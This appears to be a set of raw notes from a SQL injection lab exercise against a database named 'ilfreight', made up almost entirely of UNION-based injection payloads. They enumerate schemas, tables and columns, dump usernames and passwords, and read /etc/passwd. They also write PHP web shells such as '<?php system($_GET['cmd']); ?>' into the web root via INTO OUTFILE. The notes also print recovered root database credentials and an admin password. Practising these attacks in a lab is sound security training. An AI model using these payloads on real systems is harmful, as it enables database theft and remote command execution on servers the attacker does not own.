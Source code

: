 'UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -


'UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -

'UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users'-- -

'UNION SELECT 1,id,username,password FROM ilfreight.users-- -


'localhost', 'DB_USERNAME'=>'root', 'DB_PASSWORD'=>'dB_pAssw0rd_iS_flag!', 'DB_DATABASE'=>'ilfreight' ); $conn = mysqli_connect($config['DB_HOST'], $config['DB_USERNAME'], $config['DB_PASSWORD'], $config['DB_DATABASE']); if (mysqli_connect_errno($conn)) { echo "Failed connecting. " . mysqli_connect_error() . "
"; } ?>

'UNION SELECT 1,variable_name,variable_value,4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -



id,username,password

' UNION SELECT 1,username,password,4 from ilfreight.users INTO OUTFILE '/tmp/credentials'-- -

' UNION SELECT 1,"blablabla",3,4 INTO OUTFILE '/var/www/html/proof.txt'-- -


'UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"-- -

'UNION SELECT "","<?php system($_GET['cmd']); ?>","","" INTO OUTFILE '/var/www/html/shell.php'-- -

'UNION SELECT "","<?=`$_GET[0]`?>","","" INTO OUTFILE '/var/www/html/shell.php'-- -


A'UNION SELECT 1,2,3,4,5-- -
A'UNION SELECT 1,user(),@@version,4,5-- -
A'UNION SELECT 1,SCHEMA_NAME,@@version,4,5 FROM INFORMATION_SCHEMA.SCHEMATA-- -
     = root

A'UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 FROM INFORMATION_SCHEMA.columns WHERE table_schema='backup'-- -


'UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM **information_schema.columns** WHERE table_name= 'Table name'-- -

'UNION SELECT 1,username,password,4,5 from backup.admin_bk-- -

admin:Inl@n3_fre1gh7_adm!n


'UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5-- -

'UNION SELECT "",'blablabla',"","","" INTO OUTFILE '/var/www/html/dashboard/proof.txt'-- -

'UNION SELECT "","","<?php system($_GET['cmd']); ?>","","" into outfile "/var/www/html/dashboard/shell.php"-- -